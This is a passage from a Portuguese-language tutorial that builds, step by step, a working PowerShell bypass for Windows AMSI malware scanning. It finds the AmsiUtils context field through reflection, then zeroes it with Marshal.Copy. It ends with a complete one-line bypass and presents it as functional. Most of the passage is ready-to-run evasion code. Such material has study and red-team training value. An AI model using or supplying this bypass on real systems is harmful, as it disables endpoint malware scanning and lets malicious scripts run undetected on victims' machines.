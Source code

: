 Podemos checar o conteúdo com o comando:

```powershell
$f.GetValue($null)
```

Que irá retornar um número decimal:

![Untitled](/assets/img/Untitled%2012.png)

Para confirmar que esse número é realmente o que estamos procurando, vamos convertê-lo
para hexadecimal, que no meu caso, será **0x1563745672608**.

Por último, temos que zerar a estrutura, igual fizemos no WinDBG. Para isso, vamos salvar
esse endereço em uma variável

```powershell
$g=$f.GetValue($null)
```

Criar um ponteiro para acessar o conteúdo do endereço de memória

```powershell
[IntPtr]$ptr=$g
```

Depois vamos criar uma variável com o conteúdo 0

```powershell
[Int32[]]$buf=@(0)
```

E por último, copiar o valor para o ponteiro com a função Copy:

```powershell
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

Colocando tudo isso em uma linha, teremos o seguinte bypass:

```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

Assim criamos um bypass funcional para o AMSI:

![Untitled](/assets/img/Untitled%2013.png)
